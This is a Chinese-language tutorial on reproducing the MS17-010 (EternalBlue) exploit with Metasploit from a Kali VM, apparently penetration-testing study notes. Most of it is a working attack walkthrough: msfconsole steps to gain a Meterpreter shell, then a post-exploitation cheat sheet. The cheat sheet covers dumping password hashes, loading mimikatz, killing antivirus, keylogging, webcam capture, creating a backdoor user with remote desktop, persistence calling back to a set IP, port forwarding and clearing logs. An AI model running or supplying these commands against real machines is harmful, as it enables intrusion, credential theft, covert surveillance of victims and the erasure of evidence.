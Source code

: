 # MS17-010永恒之蓝漏洞复现

- 利用VMware打开kaili虚拟机，并打开命令终端输入，打开工具msf
  
  ```
  msfconsole
```
  
- 搜索ms17-010模块
  ```
  search ms17-010
  ```
  
- 选择需要使用的模块
  ```
  use [模块名] 或者use 0
  ```

- 设置攻击载荷
  ```
  set payload
  #msf6会默认设置好payload
  ```

- 设置靶机ip
  ```
  set RHOST [ip]
  ```

- 执行攻击
  ```
  run
  ```

攻击成功后回显WIN，回弹shell meterpreter进入后渗透测试阶段

- 输入shell即可切换目标的windows shell，要想从目标主机shell退出到exit
- 如果出现乱码输入
  ```
  chcp 65001
  ```

输入： 

```
sessions -l
```

查看我们获得的shell，前面有id

- 输入： sessions -i 1 
  ```
  sessions -i 1
  ```

即可切换到id为1的shell

- 输入
  ```
  shell
  ```

即可进入cmd类型的控制

下面给出一些cmd常见命令：

```
sysinfo      #查看目标主机系统信息
run scraper    #查看目标主机详细信息
run hashdump   #导出密码的哈希
load kiwi     #加载mimikatz
ps       #查看目标主机进程信息
pwd     #查看目标当前目录(windows)
getlwd     #查看目标当前目录(Linux)
search -f *.jsp -d e:\      #搜索E盘中所有以.jsp为后缀的文件
download e:\test.txt /root     #将目标机的e:\test.txt文件下载到/root目录下
upload /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid          #查看当前Meterpreter Shell的进程PID
migrate 1384        #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime       #查看主机运行时间
getuid        #查看获取的当前权限
getsystem       #提权,获得的当前用户是administrator才能成功
run killav       #关闭杀毒软件
screenshot       #截图
webcam_list      #查看目标主机的摄像头
webcam_snap      #拍照
webcam_stream    #开视频
execute 参数 -f 可执行文件    #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e     #开启远程桌面
keyscan_start       #开启键盘记录功能
keyscan_dump    #显示捕捉到的键盘记录信息
keyscan_stop   #停止键盘记录功能
uictl disable keyboard    #禁止目标使用键盘
uictl enable keyboard   #允许目标使用键盘
uictl disable mouse    #禁止目标使用鼠标
uictl enable mouse    #允许目标使用鼠标
load    #使用扩展库
run     #使用扩展库
run persistence -X -i 5 -p 8888 -r 192.168.10.27    #反弹时间间隔是5s 会自动连接
192.168.27的4444端口，缺点是容易被杀毒软件查杀
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本
地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
clealev      #清除日志
```
